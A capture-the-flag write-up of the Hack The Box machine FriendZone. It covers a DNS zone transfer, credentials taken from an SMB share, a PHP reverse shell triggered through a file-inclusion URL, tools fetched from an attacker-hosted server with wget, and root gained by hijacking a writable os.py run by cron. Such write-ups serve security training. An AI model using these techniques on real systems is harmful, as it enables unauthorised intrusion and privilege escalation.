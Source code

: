 ```yaml
---
title: FriendZone Hackthebox Writeup
date: 2021-02-03 07:00:00 +0530
categories: [Hackthebox, Retired]
tags: [linux,cronjob,smb,os hijacking]     # TAG names should always be lowercase
image: /assets/img/friendzone-hackthebox/friendzone-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@FriendZone:~$


Column | Details
------------ | -------------
Name | FriendZone
IP | 10.10.10.123
Points | 20
Os | Linux
Difficult | Low
Creator | [askar](https://www.hackthebox.eu/home/users/profile/17292)
Out on | 9th February 2019

# Summary:~$

* Discovering the new host and scanning for open ports.
* Zone transfering with 2 hostnames found in `nmap scan` and `source code`.
* Getting `Admin` credentials by accessing `smb` to login into a login page.
* Uploading `reverse shell` via smb and accessing it from the browser.
* Hijacking `os.py` to get root shell.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/friendzone-hackthebox/nmap-scan-1.png)

Accessing `Port 80`.

___
![](/assets/img/friendzone-hackthebox/port-80.png)

Let's use `gobuster` on the url to find hidden directories.

**Command**: *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://friendzone.htb/ -t 100*

___
![](/assets/img/friendzone-hackthebox/gobuster-4.png)

I accessed `/wordpress` directory, but it's empty

After that I checked the `source code` and found a hostname: *friendzone.red* and another from `nmap scan`, hostname: *friendzoneportal.red*.

As `port 53` is also open, let's do a `zone transfer`.

**Command**: *host -l domain-name dns_server-address*

*host -l friendzone.red 10.10.10.123 > zonetransfer.txt*

*host -l friendzoneportal.red 10.10.10.123 >> zonetransfer.txt*

___
![](/assets/img/friendzone-hackthebox/zone-transfer-command-5.png)

Adding all of the domain names to `/etc/hosts`, accessing them simultaneously I found this:

**URL**: *https://administrator1.friendzone.red/*

___
![](/assets/img/friendzone-hackthebox/new-admin-page-10.png)

But we don't know the username and the password, let's look in other ports too.

Checking `port 139` i.e. SMB using smbclient.

**Command**: *smbclient -L ////10.10.10.123//*

___
![](/assets/img/friendzone-hackthebox/smbclient-6.png)

I found the `credentials` in **general** using smbclient.

**Command**: *smbclient //10.10.10.123/general*

`admin`:`WORKWORKHhallelujah@#`

After loging in, I got this:

___
![](/assets/img/friendzone-hackthebox/new-login-11.png)

Let's access `/dashboard.php`.

___
![](/assets/img/friendzone-hackthebox/loggging-in-image-12.png)

Access *https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp*

___
![](/assets/img/friendzone-hackthebox/parameter-13.png)

Now we can see that timestamp is visible on the screen.

Let's put a [php shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) using `smb` in *Development* and try to access it from the browser.

___
![](/assets/img/friendzone-hackthebox/put-shell-php-14.png)

After alot of retries I finally got a reverse shell as `www` by accessing this URL: *https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/exploit*  (**.php extension is automatically attached with it**)

___
![](/assets/img/friendzone-hackthebox/got-www-shell-15.png)

Got the `User flag`.

Now for `Privilege Escalation`, I had sent [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) and [pspy32s](https://github.com/DominicBreuker/pspy/blob/master/README.md) on the victim machine.

**Command**: *wget http://10.10.X.X:8081/linpeas.sh* (or pspy32s)
**Hosting Command**: *python3 -m http.server 8081*

___
![](/assets/img/friendzone-hackthebox/sending-pspy-linpeas-16.png)

I ran `linpeas.sh` by giving it executing permssions *chmod +x linpeas.sh* but couldn't find any thing interesting.

After that I ran `pspy32s` by giving it executing permissions *chmod +x pspy32s*, and found a cronjob running.

___
![](/assets/img/friendzone-hackthebox/reporter-cronjob-17.png)

Let's check the permssions for `reporter.py`.

___
![](/assets/img/friendzone-hackthebox/read-permission-reporter-18.png)

We only have read permissions on it. Reading the file.

___
![](/assets/img/friendzone-hackthebox/cat-reporter-19.png)

Let's try to check the permissions of `os.py` and if it could be hijacked.

___
![](/assets/img/friendzone-hackthebox/os-permissions-21.png)

We have `write permissions` on it, so what I did was downloaded the file i.e. `os.py` via `smb` (*similarly we downloaded creds.txt*), added my [reverse shell payload](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and sent it back via `smb` (*similarly we uploaded exploit.php*)

Listening on the specified port using `nc` and waiting for the cronjob to run. We got `Root`.

___
![](/assets/img/friendzone-hackthebox/got-root-23.png)
